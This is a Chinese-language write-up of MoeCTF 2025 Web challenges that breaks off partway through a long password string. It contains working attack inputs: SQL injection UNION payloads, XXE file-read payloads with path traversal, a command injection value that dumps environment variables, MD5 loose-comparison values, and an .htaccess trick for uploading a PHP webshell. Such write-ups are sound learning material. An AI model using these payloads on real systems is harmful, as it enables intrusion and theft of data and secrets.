

# MoeCTF 2025 Web Write Up

@Copper Koi 

---

致我最爱的 Web、我正式打的第一个 CTF 与鼓励并支持我的各位 staff ❤️.

## Week 1

### **0 Web入门指北**

注意到， `moectf2025__web_signin.txt` 采用了 JSFuck 代码混淆，解密即可.

```jsx
moectf {
    jv @vScr1p7_14_so0o0o0o_inT3r3 & t!!!
}
```

整理得到 flag.

### **01 第一章 神秘的手镯**

查看源码即可.



~~其实我第一次做的时候是写了个模拟手动输入的脚本.~~

### **02 第二章 初识金曦玄轨**

题目提示抓包，且提示 *前往/golden_trail看看 .*


我们抓取 /golden_trail 的包即可在 header 中找到 flag.


### **03 第三章 问剑石！篡天改命！**

题目提示抓包改包，按提示修改即可.


### **04 第四章 金曦破禁与七绝傀儡阵**

按提示请求即可.


我们把“玉简碎片”拼起来.

`bW9lY3Rme0MwbjZyNDd1MTQ3MTBuNV95MHVyX2g3N1BfbDN2M2xfMTVfcjM0bGx5X2gxOWghfQ==` 

注意到末尾的 `=` ，判断是 base64 编码，解码即可.

### **05 第五章 打上门来！**


### **06 第六章 藏经禁制？玄机初探！**

SQL 注入.


### **07 第七章 灵蛛探穴与阴阳双生符**

访问 /robots.txt

```
User-agent: *
Disallow: /flag.php
```

访问 /flag.php

```php
<?php
highlight_file(__FILE__);
$flag = getenv('FLAG');

$a = $_GET["a"] ?? "";
$b = $_GET["b"] ?? "";

if($a == $b){
    die("error 1");
}

if(md5($a) != md5($b)){
    die("error 2");
}

echo $flag; error 1
```

松散比较与哈希碰撞.

```
a=QNKCDZO
b=240610708
```


### **08 第八章 天衍真言，星图显圣**

SQL 注入.

匹配列数，改变 NULL 的数量直到不报错.

```sql
' UNION SELECT NULL,NULL -- 
```


2列，接下来看看在哪回显.

```sql
' UNION SELECT 'test1','test2' -- 
```


只回显第1列，获取数据库名.

```sql
' UNION SELECT database(),1 -- 
```


库名 user，获取表名.

```sql
' UNION SELECT table_name, NULL 
FROM information_schema.tables 
WHERE table_schema='user'-- -
```

表名 falg，获取列名.

```sql
' UNION SELECT column_name, NULL 
FROM information_schema.columns 
WHERE table_schema='user' AND table_name='flag'-- -
```

列名 value，读取即可.

```sql
' UNION SELECT value, NULL FROM user.flag-- -
```


### **Moe笑传之猜猜爆**

审计代码.


发送 post 即可.


// 直接在控制台找到随机数也是一种方法.

## Week 2

### **09 第九章 星墟禁制·天机问路**

`w; env`

得到环境变量并找到 flag.


### **10 第十章 天机符阵**

XML 注入，利用 filter 强制读取.

```xml
<!DOCTYPE input [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=flag.txt">
]>
<input>
  <阵枢>&xxe;</阵枢>
  <解析>&xxe;</解析>
  <输出>&xxe;</输出>
</input>
```


得到 base64 编码.

`ZmxhZ++8mm1vZWN0ZntHMDBkXzdvNl80bkRfWFgzX1VubDBja19TdDRyX1MzNGx9`

解密即可.

### **10 第十章 天机符阵_revenge**

测试回显.

```xml
<!DOCTYPE input [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/flag.txt">
]>
<input>
  <阵枢>test</阵枢>
  <解析>test</解析>
  <输出>test</输出>
</input>
```

我们发现解析和输出都可以回显.

我们利用 filter 输出根目录的 flag.

```xml
<!DOCTYPE input [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=../../../../flag.txt">
]>
<input>
  <阵枢>111</阵枢>
  <解析>&xxe;</解析>
  <输出>111</输出>
</input>
```


`bW9lY3RmezgzOWQ2MWUxLWMwYjUtNGM3ZC1kMDdmLTM2ZTIzYzllYWI3N30K`

base64 解码得到 flag.

### **11 第十一章 千机变·破妄之眼**

/*

这一部分我真的会笑，所以注释掉吧.

我们写一个自动发送请求的异步脚本.


这里贴上一个返回.

```html
{
  "param": "monpq",
  "url": "http://127.0.0.1:61241/find.php",
  "status": 200,
  "headers": {
    "Host": "127.0.0.1:61241",
    "Date": "Sun, 17 Aug 2025 15:08:10 GMT",
    "Connection": "close",
    "X-Powered-By": "PHP/8.2.29",
    "Content-Type": "text/html; charset=UTF-8"
  },
  "content_type": "text/html; charset=UTF-8",
  "timestamp": "2025-08-17T23:08:11.718695",
  "content": "<!DOCTYPE html>\r\n<html lang=\"zh\">\r\n<head>\r\n    <meta charset=\"UTF-8\">\r\n    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1.0\">\r\n    <title>\u91d1\u66e6\u7384\u8f68\u00b7\u7834\u754c\u4e4b\u773c - \u7384\u5929\u5251\u5b97\u79d8\u5b9d</title>\r\n    <link rel=\"stylesheet\" href=\"https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css\">\r\n    <style>\r\n        :root {\r\n            --gold-primary: #d4af37;\r\n            --gold-secondary: #f9e076;\r\n            --gold-tertiary: #b8860b;\r\n            --deep-blue: #0a192f;\r\n            --dark-bg: #0d1b2a;\r\n            --scrollbar: #2c3e50;\r\n            --text-light: #e0e1dd;\r\n            --text-gold: #ffd700;\r\n            --danger: #e63946;\r\n            --success: #2a9d8f;\r\n            --folder-color: #4ec9b0;\r\n            --file-color: #64b5f6;\r\n        }\r\n        \r\n        * {\r\n            margin: 0;\r\n            padding: 0;\r\n            box-sizing: border-box;\r\n        }\r\n        \r\n        body {\r\n            background: linear-gradient(135deg, var(--dark-bg) 0%, #1b263b 100%);\r\n            color: var(--text-light);\r\n            font-family: 'Segoe UI', 'Microsoft YaHei', sans-serif;\r\n            line-height: 1.6;\r\n            min-height: 100vh;\r\n            padding: 20px;\r\n            position: relative;\r\n            overflow-x: hidden;\r\n        }\r\n        \r\n        body::before {\r\n            content: \"\";\r\n            position: fixed;\r\n            top: 0;\r\n            left: 0;\r\n            width: 100%;\r\n            height: 100%;\r\n            background: \r\n                radial-gradient(circle at 10% 20%, rgba(212, 175, 55, 0.1) 0%, transparent 20%),\r\n                radial-gradient(circle at 90% 80%, rgba(212, 175, 55, 0.1) 0%, transparent 20%),\r\n                url(\"data:image/svg+xml,%3Csvg width='100' height='100' viewBox='0 0 100 100' xmlns='http://www.w3.org/2000/svg'%3E%3Cpath d='M11 18c3.866 0 7-3.134 7-7s-3.134-7-7-7-7 3.134-7 7 3.134 7 7 7zm48 25c3.866 0 7-3.134 7-7s-3.134-7-7-7-7 3.134-7 7 3.134 7 7 7zm-43-7c1.657 0 3-1.343 3-3s-1.343-3-3-3-3 1.343-3 3 1.343 3 3 3zm63 31c1.657 0 3-1.343 3-3s-1.343-3-3-3-3 1.343-3 3 1.343 3 3 3zM34 90c1.657 0 3-1.343 3-3s-1.343-3-3-3-3 1.343-3 3 1.343 3 3 3zm56-76c1.657 0 3-1.343 3-3s-1.343-3-3-3-3 1.343-3 3 1.343 3 3 3zM12 86c2.21 0 4-1.79 4-4s-1.79-4-4-4-4 1.79-4 4 1.79 4 4 4zm28-65c2.21 0 4-1.79 4-4s-1.79-4-4-4-4 1.79-4 4 1.79 4 4 4zm23-11c2.76 0 5-2.24 5-5s-2.24-5-5-5-5 2.24-5 5 2.24 5 5 5zm-6 60c2.21 0 4-1.79 4-4s-1.79-4-4-4-4 1.79-4 4 1.79 4 4 4zm29 22c2.76 0 5-2.24 5-5s-2.24-5-5-5-5 2.24-5 5 2.24 5 5 5zM32 63c2.76 0 5-2.24 5-5s-2.24-5-5-5-5 2.24-5 5 2.24 5 5 5zm57-13c2.76 0 5-2.24 5-5s-2.24-5-5-5-5 2.24-5 5 2.24 5 5 5zm-9-21c1.105 0 2-.895 2-2s-.895-2-2-2-2 .895-2 2 .895 2 2 2zM60 91c1.105 0 2-.895 2-2s-.895-2-2-2-2 .895-2 2 .895 2 2 2zM35 41c1.105 0 2-.895 2-2s-.895-2-2-2-2 .895-2 2 .895 2 2 2zM12 60c1.105 0 2-.895 2-2s-.895-2-2-2-2 .895-2 2 .895 2 2 2z' fill='%23d4af37' fill-opacity='0.1' fill-rule='evenodd'/%3E%3C/svg%3E\");\r\n            opacity: 0.2;\r\n            z-index: -1;\r\n        }\r\n        \r\n        .container {\r\n            max-width: 1200px;\r\n            margin: 0 auto;\r\n            background: rgba(13, 27, 42, 0.85);\r\n            border-radius: 15px;\r\n            box-shadow: 0 10px 30px rgba(0, 0, 0, 0.5);\r\n            border: 1px solid rgba(212, 175, 55, 0.3);\r\n            overflow: hidden;\r\n            position: relative;\r\n            z-index: 1;\r\n        }\r\n        \r\n        .header {\r\n            background: linear-gradient(90deg, var(--deep-blue) 0%, rgba(10, 25, 47, 0.8) 100%);\r\n            padding: 25px 30px;\r\n            border-bottom: 2px solid var(--gold-primary);\r\n            position: relative;\r\n            overflow: hidden;\r\n        }\r\n        \r\n        .title-container {\r\n            display: flex;\r\n            align-items: center;\r\n            gap: 15px;\r\n        }\r\n        \r\n        .title-icon {\r\n            font-size: 2.5rem;\r\n            color: var(--gold-secondary);\r\n            background: rgba(0, 0, 0, 0.3);\r\n            width: 70px;\r\n            height: 70px;\r\n            border-radius: 50%;\r\n            display: flex;\r\n            align-items: center;\r\n            justify-content: center;\r\n            border: 2px solid var(--gold-primary);\r\n        }\r\n        \r\n        .title-text {\r\n            font-size: 2.2rem;\r\n            background: linear-gradient(to right, var(--gold-secondary), var(--gold-primary));\r\n            -webkit-background-clip: text;\r\n            background-clip: text;\r\n            -webkit-text-fill-color: transparent;\r\n            text-shadow: 0 0 10px rgba(212, 175, 55, 0.3);\r\n            letter-spacing: 1px;\r\n        }\r\n        \r\n        .title-subtext {\r\n            margin-top: 8px;\r\n            font-size: 1.1rem;\r\n            color: rgba(224, 225, 221, 0.7);\r\n            max-width: 800px;\r\n            line-height: 1.7;\r\n        }\r\n        \r\n        .content {\r\n            padding: 30px;\r\n        }\r\n        \r\n        .form-container {\r\n            background: rgba(26, 39, 59, 0.6);\r\n            border-radius: 10px;\r\n            padding: 25px;\r\n            margin-bottom: 30px;\r\n            border: 1px solid rgba(212, 175, 55, 0.2);\r\n            box-shadow: 0 5px 15px rgba(0, 0, 0, 0.3);\r\n        }\r\n        \r\n        .form-title {\r\n            font-size: 1.4rem;\r\n            color: var(--gold-secondary);\r\n            margin-bottom: 20px;\r\n            display: flex;\r\n            align-items: center;\r\n            gap: 10px;\r\n        }\r\n        \r\n        .form-title i {\r\n            color: var(--gold-primary);\r\n        }\r\n        \r\n        .form-group {\r\n            display: flex;\r\n            gap: 15px;\r\n            flex-wrap: wrap;\r\n            align-items: center;\r\n        }\r\n        \r\n        .path-label {\r\n            font-size: 1.1rem;\r\n            color: var(--text-light);\r\n            white-space: nowrap;\r\n        }\r\n        \r\n        .path-input {\r\n            flex: 1;\r\n            min-width: 300px;\r\n            padding: 14px 18px;\r\n            background: rgba(10, 25, 47, 0.7);\r\n            border: 1px solid rgba(212, 175, 55, 0.4);\r\n            border-radius: 8px;\r\n            color: var(--text-light);\r\n            font-size: 1.1rem;\r\n            transition: all 0.3s ease;\r\n            box-shadow: 0 0 10px rgba(212, 175, 55, 0.1);\r\n        }\r\n        \r\n        .path-input:focus {\r\n            outline: none;\r\n            border-color: var(--gold-primary);\r\n            box-shadow: 0 0 15px rgba(212, 175, 55, 0.3);\r\n        }\r\n        \r\n        .submit-btn {\r\n            background: linear-gradient(135deg, var(--gold-tertiary), var(--gold-primary));\r\n            color: var(--deep-blue);\r\n            border: none;\r\n            padding: 14px 30px;\r\n            border-radius: 8px;\r\n            font-size: 1.1rem;\r\n            font-weight: 600;\r\n            cursor: pointer;\r\n            transition: all 0.3s ease;\r\n            box-shadow: 0 4px 10px rgba(0, 0, 0, 0.3);\r\n            display: flex;\r\n            align-items: center;\r\n            gap: 8px;\r\n        }\r\n        \r\n        .submit-btn:hover {\r\n            transform: translateY(-2px);\r\n            box-shadow: 0 6px 15px rgba(212, 175, 55, 0.4);\r\n        }\r\n        \r\n        .submit-btn:active {\r\n            transform: translateY(1px);\r\n        }\r\n        \r\n        .result-container {\r\n            margin-top: 20px;\r\n        }\r\n        \r\n        .result-title {\r\n            font-size: 1.3rem;\r\n            color: var(--gold-secondary);\r\n            margin: 25px 0 15px;\r\n            padding-bottom: 10px;\r\n            border-bottom: 1px solid rgba(212, 175, 55, 0.3);\r\n            display: flex;\r\n            align-items: center;\r\n            gap: 10px;\r\n        }\r\n        \r\n        .table-container {\r\n            overflow-x: auto;\r\n            border-radius: 8px;\r\n            border: 1px solid rgba(212, 175, 55, 0.3);\r\n            box-shadow: 0 5px 15px rgba(0, 0, 0, 0.2);\r\n            margin-bottom: 30px;\r\n        }\r\n        \r\n        .file-table {\r\n            width: 100%;\r\n            border-collapse: collapse;\r\n            background: rgba(15, 30, 46, 0.7);\r\n        }\r\n        \r\n        .file-table th {\r\n            background: linear-gradient(to right, rgba(10, 25, 47, 0.9), rgba(26, 39, 59, 0.9));\r\n            color: var(--gold-secondary);\r\n            padding: 15px 20px;\r\n            text-align: left;\r\n            font-weight: 600;\r\n            border-bottom: 2px solid var(--gold-primary);\r\n        }\r\n        \r\n        .file-table td {\r\n            padding: 12px 20px;\r\n            border-bottom: 1px solid rgba(212, 175, 55, 0.1);\r\n        }\r\n        \r\n        .file-table tr:hover {\r\n            background: rgba(212, 175, 55, 0.1);\r\n        }\r\n        \r\n        .file-table tr:last-child td {\r\n            border-bottom: none;\r\n        }\r\n        \r\n        .folder-cell {\r\n            color: var(--folder-color);\r\n            cursor: pointer;\r\n        }\r\n        \r\n        .folder-cell:hover {\r\n            text-decoration: underline;\r\n            color: var(--gold-secondary);\r\n        }\r\n        \r\n        .folder-cell i {\r\n            margin-right: 8px;\r\n        }\r\n        \r\n        .file-cell {\r\n            color: var(--file-color);\r\n            cursor: pointer;\r\n        }\r\n        \r\n        .file-cell:hover {\r\n            color: var(--gold-secondary);\r\n        }\r\n        \r\n        .file-cell i {\r\n            margin-right: 8px;\r\n        }\r\n        \r\n        .file-content {\r\n            background: rgba(15, 30, 46, 0.7);\r\n            border-radius: 8px;\r\n            padding: 25px;\r\n            border: 1px solid rgba(212, 175, 55, 0.3);\r\n            font-family: 'Courier New', monospace;\r\n            white-space: pre-wrap;\r\n            word-break: break-all;\r\n            line-height: 1.8;\r\n            max-height: 500px;\r\n            overflow-y: auto;\r\n            box-shadow: inset 0 0 15px rgba(0, 0, 0, 0.4);\r\n            color: #a9b7c6;\r\n        }\r\n        \r\n        .file-content h3 {\r\n            color: var(--gold-secondary);\r\n            margin-bottom: 15px;\r\n            border-bottom: 1px solid rgba(212, 175, 55, 0.3);\r\n            padding-bottom: 10px;\r\n        }\r\n        \r\n        .file-content h4 {\r\n            color: var(--folder-color);\r\n            margin: 15px 0 10px;\r\n        }\r\n        \r\n        .error-message {\r\n            background: rgba(230, 57, 70, 0.15);\r\n            border: 1px solid var(--danger);\r\n            border-radius: 8px;\r\n            padding: 20px;\r\n            color: #ff6b6b;\r\n            font-size: 1.1rem;\r\n            display: flex;\r\n            align-items: center;\r\n            gap: 15px;\r\n            margin: 20px 0;\r\n        }\r\n        \r\n        .current-path {\r\n            background: rgba(26, 39, 59, 0.6);\r\n            border-radius: 8px;\r\n            padding: 12px 20px;\r\n            margin-bottom: 20px;\r\n            font-family: monospace;\r\n            color: var(--gold-secondary);\r\n            border: 1px solid rgba(212, 175, 55, 0.2);\r\n        }\r\n        \r\n        .footer {\r\n            text-align: center;\r\n            padding: 25px;\r\n            color: rgba(224, 225, 221, 0.6);\r\n            border-top: 1px solid rgba(212, 175, 55, 0.2);\r\n            font-size: 0.9rem;\r\n        }\r\n        \r\n        .footer a {\r\n            color: var(--gold-secondary);\r\n            text-decoration: none;\r\n        }\r\n        \r\n        .footer a:hover {\r\n            text-decoration: underline;\r\n        }\r\n        \r\n        /* Scrollbar styling */\r\n        ::-webkit-scrollbar {\r\n            width: 10px;\r\n            height: 10px;\r\n        }\r\n        \r\n        ::-webkit-scrollbar-track {\r\n            background: rgba(15, 30, 46, 0.5);\r\n            border-radius: 5px;\r\n        }\r\n        \r\n        ::-webkit-scrollbar-thumb {\r\n            background: linear-gradient(to bottom, var(--gold-tertiary), var(--gold-primary));\r\n            border-radius: 5px;\r\n        }\r\n        \r\n        ::-webkit-scrollbar-thumb:hover {\r\n            background: var(--gold-primary);\r\n        }\r\n        \r\n        /* \u52a8\u753b\u6548\u679c */\r\n        @keyframes fadeIn {\r\n            from { opacity: 0; transform: translateY(20px); }\r\n            to { opacity: 1; transform: translateY(0); }\r\n        }\r\n        \r\n        .form-container, .result-container {\r\n            animation: fadeIn 0.6s ease-out;\r\n        }\r\n        \r\n        @keyframes pulse {\r\n            0% { box-shadow: 0 0 0 0 rgba(212, 175, 55, 0.4); }\r\n            70% { box-shadow: 0 0 0 10px rgba(212, 175, 55, 0); }\r\n            100% { box-shadow: 0 0 0 0 rgba(212, 175, 55, 0); }\r\n        }\r\n        \r\n        .pulse {\r\n            animation: pulse 2s infinite;\r\n        }\r\n        \r\n        /* \u54cd\u5e94\u5f0f\u8bbe\u8ba1 */\r\n        @media (max-width: 768px) {\r\n            .header {\r\n                padding: 20px;\r\n            }\r\n            \r\n            .title-container {\r\n                flex-direction: column;\r\n                text-align: center;\r\n            }\r\n            \r\n            .title-icon {\r\n                margin-bottom: 15px;\r\n            }\r\n            \r\n            .form-group {\r\n                flex-direction: column;\r\n                align-items: stretch;\r\n            }\r\n            \r\n            .path-input {\r\n                min-width: 100%;\r\n            }\r\n            \r\n            .file-table {\r\n                font-size: 0.9rem;\r\n            }\r\n        }\r\n    </style>\r\n</head>\r\n<body>\r\n    <div class=\"container\">\r\n        <div class=\"header\">\r\n            <div class=\"title-container\">\r\n                <div class=\"title-icon\">\r\n                    <i class=\"fas fa-dragon\"></i>\r\n                </div>\r\n                <div>\r\n                    <h1 class=\"title-text\">\u91d1\u66e6\u7384\u8f68\u00b7\u7834\u754c\u4e4b\u773c</h1>\r\n                    <p class=\"title-subtext\">\u4ee5\u91d1\u66e6\u7384\u8f68\u4e4b\u529b\u7aa5\u63a2\u5929\u5730\u672c\u6e90\uff0c\u7834\u9664\u4e07\u6cd5\u7981\u5236\u3002\u6b64\u4e43\u5929\u884d\u79d8\u672f\u4e0e\u91d1\u66e6\u7834\u7981\u672f\u7ed3\u5408\u4e4b\u65e0\u4e0a\u6cd5\u5668\uff0c\u53ef\u6d1e\u6089\u4fe1\u6807\u8ff7\u5bab\uff0c\u6eaf\u6e90\u5f52\u589f\u4e4b\u5f84\u3002</p>\r\n                </div>\r\n            </div>\r\n        </div>\r\n        \r\n        <div class=\"content\">\r\n            <div class=\"form-container\">\r\n                <h2 class=\"form-title\"><i class=\"fas fa-search\"></i> \u7384\u8f68\u63a2\u67e5</h2>\r\n                <form method=\"GET\">\r\n                    <div class=\"form-group\">\r\n                        <label class=\"path-label\">\u4fe1\u6807\u8def\u5f84\uff1a</label>\r\n                        <input type=\"text\" name=\"file\" class=\"path-input\" value=\"./\" placeholder=\"\u8f93\u5165\u4fe1\u6807\u8def\u5f84\u6216\u7389\u7b80\u540d\u79f0...\" id=\"pathInput\">\r\n                        <button type=\"submit\" class=\"submit-btn pulse\">\r\n                            <i class=\"fas fa-eye\"></i> \u7aa5\u63a2\u672c\u6e90\r\n                        </button>\r\n                    </div>\r\n                </form>\r\n            </div>\r\n            \r\n            <div class=\"result-container\">\r\n                                                            <div class=\"current-path\">\r\n                            <i class=\"fas fa-folder-open\"></i> \u5f53\u524d\u8def\u5f84: ./                        </div>\r\n                        \r\n                        <h3 class=\"result-title\"><i class=\"fas fa-folder-open\"></i> \u4fe1\u6807\u7a7a\u95f4</h3>\r\n                        \r\n                        <div class=\"table-container\">\r\n                            <table class=\"file-table\">\r\n                                <thead>\r\n                                    <tr>\r\n                                        <th>\u7389\u7b80\u540d\u79f0</th>\r\n                                        <th>\u7384\u8f68\u7c7b\u578b</th>\r\n                                    </tr>\r\n                                </thead>\r\n                                <tbody>\r\n                                    <!-- \u4e0a\u7ea7\u76ee\u5f55\u94fe\u63a5 -->\r\n                                    \r\n                                    <!-- \u5b9e\u9645\u6587\u4ef6\u7cfb\u7edf\u4e2d\u7684\u5185\u5bb9 -->\r\n                                                                            <tr>\r\n                                            <td class=\"file-cell\" onclick=\"viewFile('./find.php')\">\r\n                                                <i class=\"fas fa-file\"></i> find.php                                            </td>\r\n                                            <td>\u7384\u8f68\u7389\u7b80</td>\r\n                                        </tr>\r\n                                                                                                                <tr>\r\n                                            <td class=\"file-cell\" onclick=\"viewFile('./flag.php')\">\r\n                                                <i class=\"fas fa-file\"></i> flag.php                                            </td>\r\n                                            <td>\u7384\u8f68\u7389\u7b80</td>\r\n                                        </tr>\r\n                                                                                                                <tr>\r\n                                            <td class=\"file-cell\" onclick=\"viewFile('./index.php')\">\r\n                                                <i class=\"fas fa-file\"></i> index.php                                            </td>\r\n                                            <td>\u7384\u8f68\u7389\u7b80</td>\r\n                                        </tr>\r\n                                                                                                        </tbody>\r\n                            </table>\r\n                        </div>\r\n                                                </div>\r\n        </div>\r\n        \r\n        <div class=\"footer\">\r\n            <p>\u7384\u5929\u5251\u5b97 \u00b7 \u7ec7\u4e91\u9601 \u00b7 \u91d1\u66e6\u7834\u7981\u672f\u4f20\u627f | \u5f53\u524d\u4f7f\u7528\u8005\uff1aHDdss</p>\r\n            <p>\u91d1\u66e6\u7384\u8f68\u4e43\u5b97\u95e8\u79d8\u4f20\uff0c\u64c5\u7528\u8005\u9700\u6301\u957f\u8001\u4ee4\u724c\u3002\u6cc4\u9732\u5b97\u95e8\u79d8\u6cd5\u8005\uff0c\u5e9f\u53bb\u4fee\u4e3a\uff0c\u6253\u5165\u5bd2\u94c1\u77ff\u6d1e\uff01</p>\r\n        </div>\r\n    </div>\r\n\r\n    <script>\r\n        // \u6dfb\u52a0\u4ea4\u4e92\u529f\u80fd\r\n        document.addEventListener('DOMContentLoaded', function() {\r\n            const pathInput = document.getElementById('pathInput');\r\n            const submitBtn = document.querySelector('.submit-btn');\r\n            \r\n            // \u6309\u94ae\u70b9\u51fb\u6548\u679c\r\n            submitBtn.addEventListener('click', function() {\r\n                this.classList.remove('pulse');\r\n                void this.offsetWidth;\r\n                this.classList.add('pulse');\r\n            });\r\n            \r\n            // \u8f93\u5165\u6846\u63d0\u793a\r\n            pathInput.addEventListener('focus', function() {\r\n                this.style.boxShadow = '0 0 15px rgba(212, 175, 55, 0.3)';\r\n            });\r\n            \r\n            pathInput.addEventListener('blur', function() {\r\n                this.style.boxShadow = '0 0 10px rgba(212, 175, 55, 0.1)';\r\n            });\r\n            \r\n            // \u968f\u673a\u751f\u6210\u7384\u8f68\u8def\u5f84\u7684\u63d0\u793a\r\n            const pathExamples = [\r\n                './\u5929\u884d\u7b26\u7b93_\u57fa\u7840\u7bc7.lst',\r\n                './\u5468\u5929\u661f\u7b97_\u5165\u95e8\u7981\u5236.fld',\r\n                './\u91d1\u66e6\u7384\u8f68\u611f\u5e94\u7bc7.txt',\r\n                './\u4e03\u7edd\u5080\u5121\u9635_\u7834\u9635\u8981\u8bc0.md',\r\n                './\u4e94\u884c\u9041\u7532_\u9632\u62a4\u9635\u56fe.sec'\r\n            ];\r\n            \r\n            let exampleIndex = 0;\r\n            setInterval(() => {\r\n                pathInput.placeholder = `\u8f93\u5165\u4fe1\u6807\u8def\u5f84\u6216\u7389\u7b80\u540d\u79f0\uff0c\u5982\uff1a${pathExamples[exampleIndex]}`;\r\n                exampleIndex = (exampleIndex + 1) % pathExamples.length;\r\n            }, 3000);\r\n        });\r\n        \r\n        // \u5bfc\u822a\u51fd\u6570\r\n        function navigateTo(path) {\r\n            const form = document.createElement('form');\r\n            form.method = 'GET';\r\n            form.action = '';\r\n            \r\n            const input = document.createElement('input');\r\n            input.type = 'hidden';\r\n            input.name = 'file';\r\n            input.value = path;\r\n            \r\n            form.appendChild(input);\r\n            document.body.appendChild(form);\r\n            form.submit();\r\n        }\r\n        \r\n        // \u67e5\u770b\u6587\u4ef6\u51fd\u6570\r\n        function viewFile(filePath) {\r\n            const form = document.createElement('form');\r\n            form.method = 'GET';\r\n            form.action = '';\r\n            \r\n            const input = document.createElement('input');\r\n            input.type = 'hidden';\r\n            input.name = 'file';\r\n            input.value = filePath;\r\n            \r\n            form.appendChild(input);\r\n            document.body.appendChild(form);\r\n            form.submit();\r\n        }\r\n    </script>\r\n</body>\r\n</html>"
}
```

可以看到有find.php，flag.php，index.php

我们可以修改一下脚本，针对find.php


得到了没什么用的返回.

```
flag就在这了，看不到吗，是老弟境界不够吧
```

*/

好好好，我们进入正题，即访问 find.php 进入这个数据库的图形化界面.


和之前一样，利用 filter 强制读取文件.


得到了 base64 编码.
`PD9waHANCmVjaG8gImZsYWflsLHlnKjov5nkuobvvIznnIvkuI3liLDlkJfvvIzmmK/ogIHlvJ/looPnlYzkuI3lpJ/lkKciOw0KLy9tb2VjdGZ7MzYyNTFlY2MtODNhMC0zYWJlLWZhMjQtMWM2NDdkMjA1M2YxfQ==`

解码得到如下内容，原来我们之前看不到的 flag 被注释掉了.

```php
<?php
echo "flag就在这了，看不到吗，是老弟境界不够吧";
//moectf{flag}
```

### **12 第十二章 玉魄玄关·破妄**

连接蚁剑.


打开终端，还是熟悉的环境变量.


### **13 第十三章 通幽关·灵纹诡影**

根据提示添加 .jpg 16进制标识即可.


成功上传.


### **14 第十四章 御神关·补天玉碑**

根据提示，上传 .htaccess 即可.

```
AddType application/x-httpd-php .jpg
```

这里需要抓包改一下文件名.


然后上传一个图片马即可.


### **摸金偶遇FLAG，拼尽全力难战胜**

审计源码后编写抓包发包的脚本.


// 或者我们可以修改 `morseCodeLength` ，改为一位密码


## Week 3

### **01 第一章 神秘的手镯_revenge**

注意到，pwd 在 `wanyanzhou.txt` 中，于是我们尝试获取 `wanyanzhou.txt.bak` ，得到目标文本.

我们检查后发现，有 debugger 语句阻止调试，我们可以通过停用断点解决.

我们发现，需要输入500次正确文本，于是可以编写一个 js 自动化完成.

```jsx
(function() {
    var input = document.getElementById("passwordInput");
    var button = document.getElementById("unsealButton");
    var text = "XqRqsDZWVYjoXvSwMYGklZOGwVpnmPKTPJXhTiFKvhvcseSrXEbawElbdYmJRydaISVcmpLTscDEPSlbIkUNKEvdzivnsrfSCnGolKgQOmVFhxKxhMitBzNeBHNyOgwckpBKdMveKRzqTIrcnvhVgXoxZrjKmuFkFahmHtmTSCKjnjethRbwMPKeJbyLSPAzROgVTuNIChkunCQdCLnoEJWzTscdjGHYzuHJZPMbxqtWteSbkogopAGBxprYdnZEGjfhJfYKlVlVarMHKwlHcIpsHwXgcsvWVKijiTYiQTfpIMHfqyroLmSqLgugtVlDQXeaGTxSWCfkMsMxnucRAxvKeRkUkpnfLrAtMfnBpgwbgLSHsXEPcUxuJwcdxYEfispMnEluMGWPtiKWukWJmcixVbTrgBhRmSqeMWZorscrwsxerZnmKRmbcBIukPQIHOxeoPOXnbngPGdpFrnoDAhCkuQeyDreHKQIutGOwDmQrtuFZYZwPlDMuBZPqPcIDrSHUZvGQKDLARkVfmEQdLeBSVoRAOUJZXAiafPXCMigwuNPzElbajcHnpzBfUvxhDTFvdRsbnvdaYDmyjkNLqrFbRqspCJxrFAJaZkEisEaWkgvnTPTCZvPStbzuAVJRJqcnthlUXbigHdyMERTwFmhGktdbvyHxMWZkIhkMhDUHcrnrqezOsoaZLvifeiFLBUlHJEhtHoStqBtQRenMJPVWLzoFCtBlVSlUaQKnXCedKVGocnoWJiOfnpXVPOxAXQITpeXgfdmszXzOTEdTjqnEPAbQcOfRQFnZPNeygovEvmlhZfKNHQeRcnjHweNceHuFBTciWcFSQNZmIlnpiMkqiQyZOENdGFayRLHRuAHYcFOeZoaWsVwciPUtHRdNxfBtENIVDTPzqnBPdtRdOVWKEaInMAmgTUFSrdghOVOefjxtitiabICQNdLUItQILjyAhCBvnTmzHALWouisBfvTGtHjcYShuKdejEobmfYOypmQRJiKeUAyIGcKPsLDYOVAdIUgujXMsDsOLyrkCqjVAwkJnymwVcIGQPXixGWZWpychnsCINBItKqzcmhoYLWhadHoihjWVBlFgpHKfXpOjXYdhBLjfZUFICrlIEJeDztXIhnMsRITfNhFSjfsQwEktpzryjKvoedbAgFGnIshgIwyJANiKQJzdPdZkckQPVXYAKfekJvIwlQTZOwhjepNEJGhyahbEuNPtkCXVaNVkUvQ